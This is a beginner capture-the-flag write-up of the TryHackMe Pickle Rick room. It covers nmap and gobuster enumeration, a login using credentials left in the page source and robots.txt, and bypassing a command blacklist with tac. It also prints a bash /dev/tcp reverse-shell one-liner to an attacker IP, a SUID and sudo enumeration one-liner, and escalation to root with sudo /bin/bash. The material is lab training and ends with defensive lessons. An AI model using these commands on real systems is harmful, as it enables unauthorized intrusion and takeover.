









# Pickle Rick writeup - 0011001100
This is my first writeup so I have chosen to do an easy TryHackMe CTF. Pickle Rick is a Rick and Morty themed CTF where you have to find three ingredients (flags) to help Rick make his potion and transform himself back into a human from a pickle. This CTF is at the end of the web fundamentals path which teaches you how to attack web applications and understand how they work. 

## Enumeration
As with any CTF you need to start off with enumeration, so once the target box ip was visible I ran a default nmap scan to quickly see what services were running.
```
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.111.28
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-20 14:35 BST
Nmap scan report for 10.10.111.28
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds 
```


As expected only ssh and http are running on their respective ports. Next visiting the IP in the browser we are greeted with the home page.



Not that helpful, however with some basic manual enumeration, I find some credentials. First visiting the homepage's source there is a comment with a note containing a username.



Next I checked the wappalyzer plugin to see if there was anything interesting it could find. However nothing stood out to me.



The third part of manual enumeration was checking /robots.txt , which did exist, however instead of potentially juicy web pages, it just contained the text "Wubbalubbadubdub". Not too sure how this is any use to us? Anyways after this I decide to run a gobuster directory brute-force using DirBuster-2007_directory-list-2.3-medium.txt and the -x flag to search for .php,.txt and .js files.

```
┌──(kali㉿kali)-[~]
└─$ export target=10.10.111.28
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u $target -w /usr/share/wordlists/SecLists-2025.3/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,txt,js
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.111.28
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists-2025.3/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.111.28/assets/]
/portal.php           (Status: 302) [Size: 0]   [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
Progress: 157003 / 882232 (17.80%)
```


I let the scan continue in the background but I think we have found all we need to begin exploitation.

## Exploitation

First visiting login.php greets us with a simple login page, visiting portal.php also just redirects us to login.php. Before trying anything I also visit /assets/ however the directory just contains some images and bootstrap js files.

 

With the username from the homepage's source code I try some basic passwords e.g admin, password123 etc, but to no avail. Remembering the text from the robots.txt I try that as the password and boom! We're in! Now redirected to portal.php which is a command panel and some other tabs, however all of the other tabs just redirect you to denied.php which shows a gif of pickle rick and the text Only the REAL rick can view this page..

 

Running ls in the command panel lists the current directory, annoyingly when trying to view Sup3rS3cretPickl3Ingred.txt or clue.txt with cat we get a response with a gif of an annoyed Mr. Meeseeks and the text Command disabled to make it hard for future PICKLEEEE RICCCKKKK.

 

However we can bypass the command blacklist using tac, another utility included in coreutils which concatenates and prints files lines in reverse. Letting us view the contents of clue.txt and Sup3rS3cretPickl3Ingred.txt . Some other commands could have been used to read files instead of cat are less, more, head, tail, strings, base64 etc. 

```
tac Sup3rS3cretPickl3Ingred.txt
xxxxxxxxxx - flag hidden from writeup

tac clue.txt

Look around the file system for the other ingredient.
```


As this command panel gives us RCE (remote code execution) I decide to try get a reverse shell. Using revshells.com (great website to copy shell payloads from made by Ryan Montgomery AKA 0day) I generate a busybox nc -e reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...

command panel:
bash -c "bash -i >& /dev/tcp/10.11.151.226/4444 0>&1"
```

(note add -c and place reverse shell in quotes to explicitly tell bash to start a new shell and pass the string as a command to be interpreted by the new bash shell)

There we go, reverse shell received!

```┌──(kali㉿kali)-[~]
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.151.226] from (UNKNOWN) [10.10.111.28] 53064
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-111-28:/var/www/html$
```


## Post-Exploitation - Privilege escalation

Instead of searching for flags right away I decided to escalate to root as soon as I got my shell, starting with the low-hanging fruit. Using an easy one-liner that I made which goes through SUID binaries, capabilities and sudo privileges.

One-liner:

```
printf "\n[*] SUID\n"; find / -perm -4000 2>/dev/null; printf "\n[*] capabilities\n"; getcap -r / 2>/dev/null; printf "\n[*] sudo -l\n"; sudo -l
```


Output from from the command:

``` 
[*] SUID
/snap/core/17200/bin/mount
[snipped out a lot of useless binaries]
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic

[*] capabilities
/snap/core20/2318/usr/bin/ping = cap_net_raw+ep
/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

[*] sudo -l
Matching Defaults entries for www-data on ip-10-10-111-28:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-111-28:
    (ALL) NOPASSWD: ALL
```


Would you look at that the current user has privilege to run any command with sudo, so I simply run sudo /bin/bash giving me a root shell! This is a huge finding as it gives us an easy path to privilege escalation. It is extremely dangerous to give users this level of sudo privileges, even very minimal sudo privileges can be exploited to gain root access (link to a list of binaries that can be used to bypass local security restrictions in misconfigured systems https://gtfobins.github.io/#+sudo). I will say even for a beginner CTF, this sudo configuration is very unrealistic.

```
www-data@ip-10-10-111-28:/var/www/html$ sudo /bin/bash
sudo /bin/bash
whoami
root
```


Next its flag finding time, however before we get to that, I quickly make the terminal slightly more interactive via python (running which python3 before doing so just to make sure its actually installed). I didn't go the full way as I didn't think that any text editors etc would be needed, however if you are interested you can check out https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ .

```
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@ip-10-10-111-28:/var/www/html#
```


So where could these flags be? First off I checked /var/www/html as there were those pages that got redirected to denied.php to see if there was anything interesting there.

```
root@ip-10-10-111-28:/var/www/html# ls
ls
Sup3rS3cretPickl3Ingred.txt  clue.txt    index.html  portal.php
assets                       denied.php  login.php   robots.txt
root@ip-10-10-111-28:/var/www/html# ls assets
ls assets
bootstrap.min.css  fail.gif       picklerick.gif  rickandmorty.jpeg
bootstrap.min.js   jquery.min.js  portal.jpg

```


Nothing there, so next I decide to just find all txt files and directories on the machine and grep the output with a small wordlist of possible names.

```
find / -type d -o -type f -name "*.txt" 2>/dev/null | grep -iE "(3rd|2nd|third|second|potions|ingredients)"
```

```
root@ip-10-10-111-28:/var/www# find / -type d -o -type f -name "*.txt" 2>/dev/null | grep -iE "(3rd|2nd|third|second|potions|ingredients)"
<ep -iE "(3rd|2nd|third|second|potions|ingredients)"
/root/3rd.txt
/usr/src/linux-headers-5.4.0-1103-aws/include/config/secondary
/usr/src/linux-headers-5.4.0-1103-aws/include/config/secondary/trusted
/usr/src/linux-aws-5.15-headers-5.15.0-1064/arch/sh/boards/mach-sh7763rdp
/usr/src/linux-aws-headers-5.4.0-1103/arch/sh/boards/mach-sh7763rdp
root@ip-10-10-111-28:/var/www# cat /root/3rd.txt
cat /root/3rd.txt
3rd ingredients: xxxxxxxxxx - flag hidden from writeup
```


So found the 3rd flag but not the second, due to CTF logic if the third flag (root flag) was in the root directory then I assume the second is probably in a users home directory (user flag) so that is where I search next.

```
root@ip-10-10-111-28:/var/www# ls /home
ls /home
rick  ubuntu
root@ip-10-10-111-28:/var/www# ls /home/rick
ls /home/rick
'second ingredients'
root@ip-10-10-111-28:/var/www# cat /home/rick/'second ingredients'
cat /home/rick/'second ingredients'
1 xxxxxxxxxx - flag hidden from writeup

```
Yep it was, well I guess that was easier than I thought, should have just checked those directories like any other CTF 😅

## Tools used
#### Reconnaissance & Enumeration
 - Nmap - Network scanner used for port discovery and service enumeration
 - Gobuster - Directory and file brute-forcing tool using wordlists
 - Wappalyzer - Browser extension for identifying web technologies
 - Browser Developer Tools - For viewing page source and inspecting elements

#### Exploitation
 - Netcat (nc) - Used to set up a reverse shell listener
 - Revshells.com - Online tool for generating reverse shell payloads

#### Post-Exploitation & Privilege Escalation
 - Python3 - For spawning an interactive TTY shell
 - Standard Linux utilities - find, grep, tac, sudo, etc.

#### Wordlists
 - SecLists - Specifically DirBuster-2007_directory-list-2.3-medium.txt for directory enumeration

## Conclusion

This Pickle Rick CTF provided a great introduction to web application penetration testing and demonstrated several important security concepts. The box required some essential enumeration techniques, basic port scanning with Nmap, directory brute-forcing with Gobuster and a bit manual enumeration before exploiting a very simple authentication bypass.

The challenge demonstrated critical security vulnerabilities that, while very exaggerated for educational purposes, mirror real-world misconfigurations. The most significant finding was the severely misconfigured sudo privileges (`(ALL) NOPASSWD: ALL`) which granted immediate root access. A reminder that even seemingly minor misconfigurations can lead to complete system compromise. In production environments, sudo privileges should always follow the principle of least privilege, granting users only the specific commands they need for their role.

Additionally, the command blacklist bypass demonstrated why blacklisting is inherently weak security - there are simply too many alternative commands to block them all. A whitelist approach or proper input validation would have been more effective.

Key takeaways from this CTF:
- **Always enumerate thoroughly** - The username in the HTML comments and password in robots.txt were easy to miss without systematic checking
- **Think creatively about command alternatives** - When `cat` was blocked, other utilities (`tac`, `less`, `more`, `head`, `tail`) could achieve the same goal
- **Check sudo privileges early** - This should be part of standard post-exploitation enumeration as it's one of the easiest privilege escalation vectors
- **Document your methodology** - Keeping track of findings and attempted exploits helps maintain organization during engagements

I hope this writeup has been helpful. Remember: enumeration is key, always try multiple approaches, and never assume privilege escalation will be difficult until you've checked the basics!

*Wubbalubbadubdub!* 🥒

##
**Thanks for reading!**

By: 0011001100 - [0011001100.com](http://0011001100.com)
